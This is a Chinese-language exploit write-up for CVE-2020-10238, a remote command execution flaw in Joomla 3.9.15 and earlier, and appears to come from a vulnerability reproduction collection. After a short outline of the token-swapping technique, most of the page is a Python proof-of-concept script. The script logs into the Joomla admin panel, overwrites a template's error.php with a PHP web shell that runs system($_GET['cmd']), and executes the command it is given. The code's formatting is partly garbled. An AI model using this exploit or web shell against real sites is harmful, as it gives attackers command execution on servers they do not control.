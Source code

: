 ```yaml
---
title: "（CVE-2020-10238）Joomla <= 3.9.15 远程命令执行漏洞"
id: zhfly3000
---
```


# （CVE-2020-10238）Joomal <= 3.9.15 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

<= 3.9.15

## 三、复现过程

```
http://www.0-sec.org/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ== 
```

使用admin进行登录

![image](../img/cb4f244589d927b0859eb04b5c8b8510.png)

### 思路：

*   首先超级管理员跟管理员的后台界面是不同的
*   将恶意代码添加到index.php里面
*   使用管理员账户修改index.php，通过超级管理员进行index.php的文件编辑来获取到返回请求。

![image](../img/d13214c93d952894046230f30d45163a.png)

> 为了方便阅读，这里我们删掉index.php的内容，只保留shell

![image](../img/4eaac199b26528993fa98ee677daab86.png)

> 黄色部分为超级管理员的token，Joomal通过此令牌来防止csrf

这里我们先在burp里面保存此请求，先试用管理员账户进行登录，获取一下管理员账户的token。

![image](../img/718f97ebc0f6a8e3c813ab36e6048b16.png)

![image](../img/f830048f048acb0047b603c7a5404987.png)

> 如上图黄色部分为管理员的token，我们用管理员的token替换超级管理员的token，并且编辑url

![image](../img/d4a056c63fe2bcf360c85c956a59a253.png)

![image](../img/cfb5a335b059125b800ae08786c159cf.png)

![image](../img/159963ac729db38fc6f4451143b4613a.png)

### poc

![image](../img/dcba14912a9104f55374d982e540b03a.png)

```
#!/usr/bin/python
import sys
import requests
import re
import argparse

def extract_token(resp):

match = re.search(r’name="([a-f0-9]{32})" value=“1”’, resp.text, re.S)

if match is None:

print("[-] Cannot find CSRF token!\n") + “[-] You are not admin account!”

return None

return match.group(1)

def try_admin_login(sess,url,uname,upass):

admin_url = url+’/administrator/index.php’

print(’[+] Getting token for admin login’)

resp = sess.get(admin_url, verify=True)

token = extract_token(resp)

# print token

if not token:

return False

print(’[+] Logging in to admin’)

data = {

‘username’: uname,

‘passwd’: upass,

‘task’: ‘login’,

token: ‘1’

}

resp = sess.post(admin_url, data=data, verify=True)

if ‘task=profile.edit’ not in resp.text:

print(’[!] Admin Login Failure!’)

return None

print(’[+] Admin Login Successfully!’)

return True

def rce(sess,url,cmd):

getjs = url + ‘/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D’

resp = sess.get(getjs, verify=True)

token = extract_token(resp)

if (token==None) : sys.exit()

filename=‘error.php’

shlink = url + ‘/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D’

shdata_up = {

‘jform[source]’: “<?php echo ‘Hacked by HK\n’ ;system($_GET[‘cmd’]); ?>”,

‘task’: ‘template.apply’,

token: ‘1’,

‘jform[extension_id]’: ‘506’,

‘jform[filename]’: ‘/’ + filename

}

shreq = sess.post(shlink, data=shdata_up)

path2shell = ‘/templates/protostar/error.php?cmd=’+cmd

# print '[+] Shell is ready to use: ’ + str(path2shell)

print ‘[+] Checking:’

shreq = sess.get(url + path2shell)

shresp = shreq.text

print shresp + ‘[+] Shell link: \n’ + (url + path2shell)

print ‘[+] Module finished.’

def main() :

```
# Construct the argument parser
ap = argparse.ArgumentParser()
# Add the arguments to the parser
ap.add_argument("-url", "--url", required=True,
				help=" URL for your Joomla target")
ap.add_argument("-u", "--username", required=True,
				help="username")
ap.add_argument("-p", "--password", required=True,
				help="password")
ap.add_argument("-cmd", "--command", default="whoami",
				help="command")
args = vars(ap.parse_args())
# target
url = format(str(args['url']))
print '[+] Your target: ' + url
# username
uname = format(str(args['username']))
# password
upass = format(str(args['password']))
# command
command = format(str(args['command']))

sess = requests.Session()
if(try_admin_login(sess,url,uname,upass) == None) : sys.exit()
rce(sess,url,command) 
``` `if **name** == “**main**”:

sys.exit(main())` 
```

## 参考链接

> https://github.com/HoangKien1020/CVE-2020-10238/tree/master/CVE-2020-10238